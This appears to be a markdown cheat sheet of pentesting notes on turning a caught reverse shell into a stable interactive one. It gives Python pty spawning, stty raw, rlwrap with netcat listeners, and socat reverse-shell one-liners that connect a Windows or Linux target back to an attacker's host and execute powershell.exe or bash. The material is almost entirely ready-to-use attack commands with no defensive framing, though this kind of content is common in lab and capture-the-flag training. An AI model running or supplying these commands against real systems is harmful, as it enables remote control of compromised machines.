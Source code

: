 # Shell Stabilizing Techniques

### Technique 1: Python

**Step 1: uses Python to spawn a better featured bash. Some versions may used python2 or python3, change if necessary**
```JavaScript
python -c 'import pty;pty.spawn("/bin/bash")'
````

**Step 2: Gives us access to commands such as clear**
```JavaScript
export TERM=xterm
```

**Step 3:**

- Background the shell with CTRL + Z

- In your own terminal, use the command below. This will turn off your own terminal and foregrounds the shell 
```JavaScript
stty raw -echo; fg
```


### Technique 2: rlwrap

**Install rlwrap**
```JavaScript
sudo apt install rlwrap
```

**Usage**
```JavaScript
rlwrap nc -lvnp <port>
```
**Use the third step in technique 1 as the final step for Technique 2**


### Technique 3: Socat

* This tecnique is limited to linux machines
* You must also transfer the socat static compiled binary up to the target machine



## Socat Reverse Shells

**Basic Syntax: The following is equivalent to nc -nlvp <port>**
```JavaScript
socat TCP-L:<port> -
```
  
On Windows we would use this command to connect back
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

This is the equivalent command for a Linux Target
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
  

  


